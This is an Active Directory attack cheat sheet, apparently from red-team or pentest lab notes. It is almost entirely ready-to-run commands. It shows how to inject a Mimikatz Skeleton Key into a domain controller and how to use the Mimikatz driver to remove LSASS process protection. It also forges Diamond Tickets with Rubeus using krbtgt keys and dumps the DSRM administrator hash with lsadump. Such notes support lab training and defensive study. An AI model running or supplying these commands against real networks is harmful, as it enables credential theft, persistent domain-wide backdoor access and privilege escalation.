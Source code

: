 ### Skeleton Key

##### Invoke-Mimikatz

```powershell
# Use the below command to inject a skeleton-Key
# Skeleton Key password is : mimikatz
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName dcorp-dc.abc.xyz.local

# Now we can access any machine with valid username and password as mimikatz
Enter-PSSession -Computername dcorp-dc.abc.xyz.local -credential dcorp\Administrator
```

###### LSASS running as a protected process

In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```mimikatz
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

### Diamond Ticket

##### Rubeus.exe

```powershell
# We would still need krbtgt AES keys. Use the following Rubeus command to create a diamond ticket (note that RC4 or AES keys of the user can be used too)
Rubeus.exe diamond /krbkey:5e3d2096... /user:user0 /password:passw0rd /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

# We could also use /tgtdeleg option in place of credentials in case we have access as a domain user
Rubeus.exe diamond /krbkey:5e3d2096... /tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### DRSM (Directory Services Restore Mode)

>   There is a local admin on every DC called “Administrator” whose password is the DRSM password. It is possible to pass the NTLM hash of this user to access the DC.

###### Dump DRSM password (needs DA privs)

```powershell
# dump DRSM password hash
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername us-dc

# compare admin hash with the hash of below command
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername us-dc

# first one is DSRM local admin
```
